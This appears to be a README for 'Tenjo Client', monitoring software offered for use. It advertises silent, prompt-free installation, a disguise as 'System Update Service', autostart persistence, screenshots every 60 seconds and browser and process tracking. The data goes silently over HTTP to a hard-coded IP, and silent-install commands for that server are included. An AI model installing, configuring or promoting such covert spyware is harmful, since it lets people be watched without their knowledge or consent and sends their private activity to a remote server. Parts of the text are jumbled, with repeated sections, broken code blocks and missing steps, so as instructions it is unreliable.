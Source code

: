 # Tenjo Client - Employee Monitoring System

## Overview
Silent employee monitoring system that runs in background without user notification.

## 🚀 **Quick Start**

### Windows
1. **Download** client files or clone repository
2. **Navigate** to client directory
3. **Run** `simple_start_windows.bat`

### macOS
1. **Download** client files or clone repository
2. **Navigate** to client directory  
3. **Run** `./simple_start_macos.sh`

## 📦 **What the Scripts Do**

The startup scripts will automatically:
- ✅ Check Python 3 installation
- ✅ Install required dependencies (requests, mss, psutil, pillow)
- ✅ Display current configuration
- ✅ Start the monitoring client

## 📋 **Manual Installation**

If you prefer manual setup:
./easy_install_macos.sh
```
3. **Enter** your dashboard server URL
4. **Wait** for installation to complete

## Features
- ✅ **Silent Installation** - No user prompts or notifications during operation
- ✅ **Advanced Service Management** - Built-in startup script with signal handling
- ✅ **Auto-Start** - Automatically starts on system boot via LaunchAgent/Service
- ✅ **Stealth Mode** - Runs hidden in background as "System Update Service"
- ✅ **Cross-Platform** - Works on Windows and macOS
- ✅ **Self-Contained** - Installs dependencies automatically
- ✅ **Easy Uninstall** - Simple removal scripts included
- ✅ **Graceful Shutdown** - Proper cleanup on system signals

## Monitoring Features
- 📸 **Screenshot capture** every 60 seconds
- 🌐 **Browser activity** monitoring (URLs, titles, time spent)
- 💻 **Process monitoring** (running applications)
- 📊 **URL tracking** with duration
- 📡 **Silent data transmission** to dashboard server
- 🔧 **Enhanced logging** with rotating log files

## 🗑️ **Stopping the Client**

Simply press `Ctrl+C` in the terminal where the client is running, or close the terminal window.

For permanent removal:
- **Windows**: Delete the client folder
- **macOS**: Delete the client folder

## Technical Details

### Configuration
- **Client ID**: Automatically generated based on hardware fingerprint
- **Server**: http://103.129.149.67 (configurable in `src/core/config.py`)
- **Screenshot Interval**: 60 seconds (configurable)
- **Dependencies**: requests, mss, psutil, pillow

### Process Information
- **Service Name**: "Tenjo Client"
- **Network**: Communicates with dashboard server
- **Storage**: Screenshots and logs stored locally
- **Cross-Platform**: Works on Windows and macOS

## Server Configuration

### Default Server
- **URL**: `http://103.129.149.67`
- **Protocol**: HTTP/HTTPS supported
- **Port**: Configurable during installation

### Custom Server Installation
**Windows:**
```cmd
easy_install_windows.bat
### Custom Server Configuration
Edit `src/core/config.py` to change:
- Server URL
- Screenshot interval  
- Other settings

## Advanced Service Management

The client includes a comprehensive startup script (`tenjo_startup.py`) with enhanced features:

### **Manual Service Control**
```bash
# Start service manually
python3 tenjo_startup.py

# Start with custom server
python3 tenjo_startup.py --server-url http://your-server.com

# Install as system service
python3 tenjo_startup.py --install-service

# Uninstall system service  
python3 tenjo_startup.py --uninstall-service

# Debug mode (visible, detailed logs)
python3 tenjo_startup.py --no-stealth --debug
```

### **Service Features**
- ✅ **Signal Handling** - Graceful shutdown on SIGINT/SIGTERM
- ✅ **Rotating Logs** - Automatic log rotation by date
- ✅ **Service Installation** - Cross-platform service management
- ✅ **Stealth Mode** - Configurable visibility
- ✅ **Error Recovery** - Automatic restart on failures

See `STARTUP_SCRIPT_DOCS.md` for complete documentation.

## Server Configuration

### Default Server
- **URL**: `http://103.129.149.67`
- **Protocol**: HTTP/HTTPS supported
- **Port**: Configurable during installation

### Custom Server Installation
**Windows:**
```cmd
easy_install_windows.bat
# Enter custom URL when prompted: http://103.129.149.67
```

**macOS:**
```bash
./easy_install_macos.sh
# Enter custom URL when prompted: http://103.129.149.67
```

## Advanced Installation (Stealth Mode)

For completely silent installation without user interaction:

### Windows Silent Install
```cmd
install_windows.bat http://103.129.149.67
```

### macOS Silent Install
```bash
./install_macos.sh http://103.129.149.67
```

## Troubleshooting

### Check Service Status
```bash
# Check if Tenjo is running
ps aux | grep tenjo_startup

# View real-time logs
tail -f ~/.tenjo_client/src/logs/tenjo_startup_$(date +%Y%m%d).log

# Check service registration (macOS)
launchctl list | grep tenjo
```

### Common Issues
1. **"Access Denied"** - Run as Administrator (Windows) or with sudo (macOS)
2. **"Python not found"** - Script will auto-install Python
3. **"Network error"** - Check server URL and network connection
4. **"Service not starting"** - Check firewall and antivirus settings

### Manual Removal
If uninstall scripts don't work:

**Windows:**
```cmd
schtasks /delete /tn "system_update_service" /f
reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SystemUpdate" /f
rmdir /s /q "%APPDATA%\SystemUpdate"
```

**macOS:**
```bash
launchctl unload ~/Library/LaunchAgents/com.tenjo.client.plist
rm ~/Library/LaunchAgents/com.tenjo.client.plist
rm -rf ~/.tenjo_client
```

## Support
- Monitoring runs completely in background
- No visible interface or notifications
- Enhanced logging for troubleshooting
- Automatic restart if process crashes
- Logs are minimized for stealth operation

